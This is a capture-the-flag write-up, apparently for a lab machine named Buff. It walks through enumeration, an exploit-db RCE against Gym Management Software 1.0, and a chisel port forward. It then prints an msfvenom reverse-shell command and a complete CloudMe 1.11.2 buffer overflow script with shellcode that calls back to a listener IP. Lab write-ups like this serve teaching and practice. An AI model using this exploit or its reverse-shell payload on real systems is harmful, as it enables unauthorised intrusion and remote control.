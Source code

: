 # Buff

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (16) (4) (2).png" alt=""><figcaption></figcaption></figure>

### Gym

On port 8080, it was a gym-related page:

<figure><img src="../../../.gitbook/assets/image (9) (2) (5).png" alt=""><figcaption></figcaption></figure>

We can use `gobuster` on the website to find more directories:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Checking the `contact.php` file, we see the software used to make this.

<figure><img src="../../../.gitbook/assets/image (13) (2) (4).png" alt=""><figcaption></figcaption></figure>

Then, we can search for exploits for this Gym Management Software 1.0.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

We can try the RCE exploit:

{% embed url="https://www.exploit-db.com/exploits/48506" %}

By running the exploit, we would gain a webshell:

<figure><img src="../../../.gitbook/assets/image (492).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can download `nc.exe` onto the machine via `smbserver.py`.&#x20;

<figure><img src="../../../.gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (496).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### CloudMe

When enumerating the user's directory, we find a CloudMe\_1112.exe file:

```
C:\Users\shaun\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\shaun\Downloads

14/07/2020  13:27    <DIR>          .
14/07/2020  13:27    <DIR>          ..
16/06/2020  16:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   7,564,353,536 bytes free
```

When checking for exploits regarding CloudMe, we can find a few Buffer Overflow exploits that can be used for RCE using shellcode.

<figure><img src="../../../.gitbook/assets/image (15) (4).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.exploit-db.com/exploits/48389" %}

CloudMe for this machine runs on port 8888 on this machine, so we can just run it and use chisel to port forward port 8888.

```bash
# on Kali
chisel server --port 4444 --reverse

# on host
.\chisel.exe client 10.10.14.2:4444 R:8888:localhost:8888
```

Then, we need to generate new shellcode for the exploit:

{% code overflow="wrap" %}
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```
{% endcode %}

The final script based on the PoC should look like this:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
payload = b""
payload += b"\xdb\xc0\xb8\x78\xb6\x92\xc4\xd9\x74\x24\xf4"
payload += b"\x5b\x29\xc9\xb1\x52\x31\x43\x17\x03\x43\x17"
payload += b"\x83\x93\x4a\x70\x31\x9f\x5b\xf7\xba\x5f\x9c"
payload += b"\x98\x33\xba\xad\x98\x20\xcf\x9e\x28\x22\x9d"
payload += b"\x12\xc2\x66\x35\xa0\xa6\xae\x3a\x01\x0c\x89"
payload += b"\x75\x92\x3d\xe9\x14\x10\x3c\x3e\xf6\x29\x8f"
payload += b"\x33\xf7\x6e\xf2\xbe\xa5\x27\x78\x6c\x59\x43"
payload += b"\x34\xad\xd2\x1f\xd8\xb5\x07\xd7\xdb\x94\x96"
payload += b"\x63\x82\x36\x19\xa7\xbe\x7e\x01\xa4\xfb\xc9"
payload += b"\xba\x1e\x77\xc8\x6a\x6f\x78\x67\x53\x5f\x8b"
payload += b"\x79\x94\x58\x74\x0c\xec\x9a\x09\x17\x2b\xe0"
payload += b"\xd5\x92\xaf\x42\x9d\x05\x0b\x72\x72\xd3\xd8"
payload += b"\x78\x3f\x97\x86\x9c\xbe\x74\xbd\x99\x4b\x7b"
payload += b"\x11\x28\x0f\x58\xb5\x70\xcb\xc1\xec\xdc\xba"
payload += b"\xfe\xee\xbe\x63\x5b\x65\x52\x77\xd6\x24\x3b"
payload += b"\xb4\xdb\xd6\xbb\xd2\x6c\xa5\x89\x7d\xc7\x21"
payload += b"\xa2\xf6\xc1\xb6\xc5\x2c\xb5\x28\x38\xcf\xc6"
payload += b"\x61\xff\x9b\x96\x19\xd6\xa3\x7c\xd9\xd7\x71"
payload += b"\xd2\x89\x77\x2a\x93\x79\x38\x9a\x7b\x93\xb7"
payload += b"\xc5\x9c\x9c\x1d\x6e\x36\x67\xf6\x9b\xcd\x69"
payload += b"\x04\xf4\xd3\x75\x09\xbf\x5d\x93\x63\xaf\x0b"
payload += b"\x0c\x1c\x56\x16\xc6\xbd\x97\x8c\xa3\xfe\x1c"
payload += b"\x23\x54\xb0\xd4\x4e\x46\x25\x15\x05\x34\xe0"
payload += b"\x2a\xb3\x50\x6e\xb8\x58\xa0\xf9\xa1\xf6\xf7"
payload += b"\xae\x14\x0f\x9d\x42\x0e\xb9\x83\x9e\xd6\x82"
payload += b"\x07\x45\x2b\x0c\x86\x08\x17\x2a\x98\xd4\x98"
payload += b"\x76\xcc\x88\xce\x20\xba\x6e\xb9\x82\x14\x39"
payload += b"\x16\x4d\xf0\xbc\x54\x4e\x86\xc0\xb0\x38\x66"
payload += b"\x70\x6d\x7d\x99\xbd\xf9\x89\xe2\xa3\x99\x76"
payload += b"\x39\x60\xa9\x3c\x63\xc1\x22\x99\xf6\x53\x2f"
payload += b"\x1a\x2d\x97\x56\x99\xc7\x68\xad\x81\xa2\x6d"
payload += b"\xe9\x05\x5f\x1c\x62\xe0\x5f\xb3\x83\x21"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))       

buf = padding1 + EIP + NOPS + payload + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```

Afterwards, run it using `python3` and an administrator shell will spawn.

<figure><img src="../../../.gitbook/assets/image (481).png" alt=""><figcaption></figcaption></figure>

Rooted!
